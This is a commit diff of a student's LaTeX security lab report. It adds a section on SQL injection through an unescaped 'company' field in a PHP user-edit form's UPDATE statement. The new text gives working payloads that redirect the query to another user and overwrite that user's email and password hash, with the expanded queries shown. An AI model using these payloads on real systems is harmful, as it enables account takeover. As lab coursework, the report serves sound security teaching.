

Before and after one commit to joy13975/SysSec, a LaTeX document (report2/main.tex, which reads report2/lab4_tech.tex): part of page 7 of 9 before the commit and two parts of pages 7 and 8 of 10 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
p4 t2 done

```diff
--- a/report2/lab4_tech.tex
+++ b/report2/lab4_tech.tex
@@ -112,6 +112,66 @@ WHERE name = 'admin'; #"
 \end{lstlisting}
 \end{minipage}
 
-This fails, because the php script calls \emph{mysql\_query()}, which executes only the first query. However, if the php script had called \emph{mysqli::multi\_query}, then the same attack could work.
+This fails, because the php script calls \emph{mysql\_query()}, which executes only the first query. However, if the php script had called \emph{mysqli::multi\_query()}, then this injection could work.
 
 \subsection{Task 2 - Injection on UPDATE}
+\subsubsection{Part 1 - Change Bob's email} \label{l4_t2p1}
+In this subtask, we first compromise Peter's account using the same attack as in Section \ref{l4_t1p1}, and navigate to the Edit User page (end of URL is "manageuser.php?action=editform\&id=5"). This edit page has many text fields. By examining the php script, we see that all text fields had their contents escaped using \emph{mysql\_real\_escape\_string()}, except the company field. This means we can inject some SQL into the company field, which is part of an UPDATE statement:
+
+\begin{minipage}{\linewidth}
+\begin{lstlisting}[caption={UPDATE statement from the edit form},
+label={lst:l4_t1p2_updq},
+frame=single]
+"UPDATE user SET name='$name',email='$email',
+tel1='$tel1', tel2='$tel2',company='$company',
+zip='$zip',gender='$gender',url='$url',
+adress='$address1',adress2='$address2',
+state='$state',country='$country',tags='$tags',
+locale='$locale',avatar='$avatar',rate='$rate'
+WHERE ID = $id"
+\end{lstlisting}
+\end{minipage}
+
+Using the same logic as in Section \ref{l4_t1p1}, we can set Bob's email by injection a new search criteria and ignore the rest of the query:
+
+\begin{minipage}{\linewidth}
+\begin{lstlisting}[caption={UPDATE statement redirection},
+label={lst:l4_t1p2_compatk},
+frame=single]
+$company = "' WHERE name = 'bob'#"
+\end{lstlisting}
+\end{minipage}
+
+With \lstref{lst:l4_t1p2_compatk}, we can redirect the UPDATE query to any user with a known name. In order to change Bob's email, we simply enter a new email in the email field. In addition, since the query also updates the name field, we must enter Bob's name instead.
+
+\begin{minipage}{\linewidth}
+\begin{lstlisting}[caption={Email overwrite expansion},
+label={lst:l4_t1p2_compatkres},
+frame=single]
+"UPDATE user SET name='bob',email='peter@evil.com',tel1='', tel2='',
+company='' WHERE name = 'bob'#',
+zip='',gender='',url='',adress='',adress2='',state='',
+country='',tags='',locale='',rate='0' WHERE ID = 5"
+\end{lstlisting}
+\end{minipage}
+
+\subsubsection{Part 2 - Change Bob's password}
+Changing Bob's password is less straightforward as the password itself is stored as a hash. In order to give Bob's password a new value, we must first encode the new password using SHA-1. If the new password is "peter", then the hash would be "4b8373d016f277527198385ba72fda0feb5da015".
+
+After obtaining the new password hash, we apply an injection similar to Section \ref{l4_t2p1}. Instead of putting the hash in the actual password fields, we embed the value pair in the injection. This is because in order for the redirection to work, the real search criteria (WHERE ID = 5) must be commented out. Doing so comes with a price of having to comment out all value pairs before the real search critera up to our new, fake search criteria (name = 'bob'). We therefore arrive at \lstref{lst:l4_t1p2_pwdatk} and hence \lstref{lst:l4_t1p2_pwdatkres}.
+
+\begin{minipage}{\linewidth}
+\begin{lstlisting}[caption={Password overwrite injection},
+label={lst:l4_t1p2_pwdatk},
+frame=single]
+$company = "', pass='4b8373d016f277527198385ba72fda0feb5da015'
+               WHERE name = 'bob'#"
+\end{lstlisting}
+\end{minipage}
+
+\begin{minipage}{\linewidth}
+\begin{lstlisting}[caption={Password overwrite expansion},
+label={lst:l4_t1p2_pwdatkres},
+frame=single]
+"UPDATE user SET name='bob',email='peter@evil.com',tel1='',tel2='',
+company='', pass='4b8373d016f277527198385ba72fda0feb5da015'
```
Also changed, not shown: report2/Makefile, report2/lab4_tech.tex (11 more changed lines).
